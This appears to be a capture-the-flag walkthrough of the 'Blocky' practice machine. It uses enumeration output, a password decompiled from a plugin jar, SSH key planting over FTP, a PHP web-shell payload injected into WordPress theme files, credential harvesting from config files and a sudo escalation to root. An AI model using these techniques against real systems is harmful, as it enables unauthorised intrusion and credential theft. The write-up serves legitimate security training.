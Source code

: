 # Blocky
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following
```
Nmap scan report for 10.10.10.37
Host is up (0.058s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Given the initial scan, let's dig deeper into port 80.  
let's enumerate directories and see if we discover something intresting.
```
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/]
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/]
/server-status        (Status: 403) [Size: 299]
```
Now, here's a rabbit hole that we can easilly jump straight in.  
As we can see there is a wordpress installed on this server, we can try to exploit wordpress but there are tons of exploit available to try. there is a much easier way.  
Before jump into the rabbit hole, as a practice, make sure to enumerate everything.  
Anyway enumerating wordpress show a user "notch".
```
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
we can check if this user is also available for ssh login.  
To check this we can use the metasploit module ```scanner/ssh/ssh_enumusers``` and set the options as follows
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.10.10.37
RHOSTS => 10.10.10.37
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set username notch
username => notch
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 10.10.10.37:22 - SSH - Using malformed packet technique
[*] 10.10.10.37:22 - SSH - Starting scan
[+] 10.10.10.37:22 - SSH - User 'notch' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Now, let's go now to the /plugins directory.  
Here we can find two .jar files hosted: "BlockyCore.jar" and "griefprevention-1.11.2-3.1.1.298.jar".  
.jar file are nothing else but archives, to extract this archive we can use zip command.  
when we extract archives we can se .class file.  
To decompile class files we can use ```jad``` (or ```jd-gui``` with the UI) and here we get the .jad file with the code in a readable format
## User
### Method 1 - Class File Decompile and Password Reuse
Using jad, we can decompile ```BlockyCore.class``` and get the .jad file by simply running:
```
jad BlockyCore.class
```
as we can see, after opening the jad file we can se the following lines:
```
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
Now we can try to login as root/notch to the machine and see if we do get any luck.
```
[root@kali Blocky ]$ ssh $TARGET -l notch
notch@10.10.10.37's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$
```
Now we got user.

### Method 2 - Wordpress Theme Exploitation and Password Seek in Configuration Files
Let's suppose now that, for some reason this credential does not work with the ssh service and we can somehow exploit the ftp service.  
Now we can try to login to ftp, create a .ssh/ directory and upload our public key into .ssh/authorized_keys and login using our certificate.   
In order to do this we can establish the followig ftp session:
```
[root@kali Blocky ]$ ftp $TARGET
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:root): notch                  
331 Password required for notch
Password:
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mkdir .ssh
257 "/.ssh" - Directory successfully created
ftp> cd .ssh
250 CWD command successful
ftp> put id_rsa.pub
local: id_rsa.pub remote: id_rsa.pub
200 PORT command successful
150 Opening BINARY mode data connection for id_rsa.pub
226 Transfer complete
563 bytes sent in 0.00 secs (11.9315 MB/s)
ftp> rename id_rsa.pub authorized_keys
350 File or directory exists, ready for destination name
250 Rename successful
```
now we can login into ssh.  
As a general rule, in penetration testing, code that connects to database contains connection parameter and in this parameter set we will most likely have credentials.  
so lets navigate to /var/www/html and grep for the keyword "pass"
```
/** MySQL database password */
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');
notch@Blocky:/var/www/html$ cat wp-config.php | grep DB_USER
define('DB_USER', 'wordpress');
```
As we can see we found the password for user wordpress.  
Let's dig deeper and see if we can get credentials for phpmyadmin.  
Finding credentials for mysql is quite important at this stage, because, if we do find credentials for root user, we can login to mysql cli and drop a shell as root using mysql as privilege escalation vector.  
Now let's navigate to ```/etc/phpmyadmin/```.  
We do not have permission for ```config-db.php``` file as it is owned by www-data. So, let's try to get a shell as user www-data.  
Now that we have user wordpress creds for the database, let's login to phpmyadmin using user wordpress and the disclosed password.  
Now we can navigate to wordpress database, find the ```wp_users``` table and create a new hash for user notch replacing the old one.  
Now we can login in wordpress using the user notch and the password used to generate the hash.  
Once we are logged in wordpress we can easilly obtain a shell by editing the theme files.  
If, for example, we go to Appearance > Editor > Theme Header, we can insert there a simple payload like : ```<?php system($_REQUEST['cmd']) ?>``` and obtain remote code execution and drop a shell as well.  
Once we are logged in as www-data we can read ```config-db.php```.  
As expected the file discloses credentials:
```
www-data@Blocky:/var/www/html$ cat /etc/phpmyadmin/config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='8YsqfCTnvxAUeduzjNSXe22';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='';
$dbtype='mysql';
```
Now using this credentials we can try to escalate to another user and as we can see we can successfully escalate to "notch"
```
www-data@Blocky:/var/www/html$ su - notch
Password:
notch@Blocky:/var/www/html$
```

## Root
Now that we got user, first thing first let's check if we do have any sudo capability on this box:
```
notch@Blocky:~$ sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
Sudo asks for password, but as we are logged in using a password, we can provide the password and retrive sudo capabilities list.
Given the sudo permission, we can easilly escalate to root by simply doing:
```
notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~#
```
